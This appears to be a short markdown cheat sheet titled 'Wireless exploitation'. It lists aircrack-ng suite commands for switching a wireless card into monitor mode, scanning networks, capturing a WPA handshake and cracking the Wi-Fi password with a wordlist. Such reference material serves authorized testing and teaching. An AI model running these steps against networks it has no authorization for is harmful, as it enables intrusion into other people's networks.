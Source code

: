 # Wireless exploitation

## Summary
* [Wifi hacking](#wifi-hacking)
	* [Managed to Monitor mode](#set-network-device-to-monitor-mode)
	* [Monitor to Managed mode](#set-network-device-to-managed-mode)
	* [List all available network](#list-all-available-network)
	* [Capture network handshakes](#capture-network-handshake)
	* [Crack Wifi password](#crack-wifi-password)

## Wifi hacking
### Set network device to monitor mode
```
-> ifconfig wlan0 down
-> iwconfig wlan0 mode monitor
-> ifconfig wlan0 up
-> airmon-ng start <network device>
```
### Set network device to managed mode
```
-> ifconfig wlan0 down
-> iwconfig wlan0 mode managed
-> ifconfig wlan0 up
```
### List all available network
```
airodump-ng <network device>
```
### Capture network handshake
```
airodump-ng -c <channel> -d <bssid> -w <save file> <network device>
```
### Crack Wifi password
```
aircrack-ng -w <wordlist> -b <bssid> <packet file> 
```
